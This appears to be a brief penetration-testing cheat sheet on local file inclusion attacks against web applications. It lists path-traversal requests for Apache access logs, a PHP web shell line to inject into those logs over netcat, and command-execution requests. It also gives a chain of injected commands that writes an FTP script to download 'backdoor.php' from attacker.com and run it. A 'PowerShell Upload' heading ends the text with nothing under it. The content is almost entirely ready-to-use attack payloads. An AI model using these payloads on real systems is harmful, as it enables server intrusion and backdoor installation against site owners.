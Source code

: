 # LFI/RFI shell tricks
The idea is to inject code into log file then calling the logfile and execute commands

## LFI parameter
	http://example.com/page?id=LFI
## LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	http://example.com/page?id=../../../../../../../var/log/apache2/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
## LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
## LFI file upload
### Using Windows built in debug.exe (Executables files smaller than 64K)
Idea
	echo hex value to a file and use debug.exe to assemble it

### FTP Upload
after setting up your FTP server
	http://example.com/page?id=echo+open+attacker.com+21>+ftp.txt
	http://example.com/page?id=echo+ftpuser>>+ftp.txt
	http://example.com/page?id=echo+ftpass>>+ftp.txt
	http://example.com/page?id=echo+bin+>>+ftp.txt
	http://example.com/page?id=echo+GET+backdoor.php+>>+ftp.txt
	http://example.com/page?id=echo+bye+>>+ftp.txt
	http://example.com/page?id=ftp+-s:ftp.txt
	http://example.com/page?id=backdoor.php?cmd=whoami

### PowerShell Upload
